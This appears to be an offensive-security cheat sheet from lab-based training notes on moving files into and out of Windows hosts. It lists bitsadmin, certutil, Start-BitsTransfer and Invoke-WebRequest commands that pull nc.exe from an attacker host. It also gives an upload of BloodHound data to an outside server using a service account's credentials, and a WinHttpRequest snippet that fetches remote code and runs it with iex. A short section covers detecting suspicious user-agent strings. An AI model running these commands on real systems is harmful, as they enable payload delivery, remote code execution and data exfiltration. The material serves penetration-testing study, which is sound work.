 #### Bitsadmin

- [Bitsadmin Download Function](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)
- `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` File Download with Bitsadmin
- `Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` Download
- `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` Upload

#### Certutil

- `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` Download a file

## Detection, Evasion and Bypass of protections

### Detection

User agents are not only used to identify web browsers, but anything acting as an HTTP client and connecting to a web server via HTTP can have a user agent string (i.e., cURL, a custom Python script, or common tools such as sqlmap, or Nmap).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows Update, and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform malicious actions.  

- [User Agent String Explained](https://useragentstring.com/index.php)
- [List of User Agent Strings](https://useragentstring.com/pages/useragentstring.php)

#### Invoke-WebRequest

- Client

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

- Server

```powershell
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

#### WinHttpRequest

- Client

```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.ResponseText
```
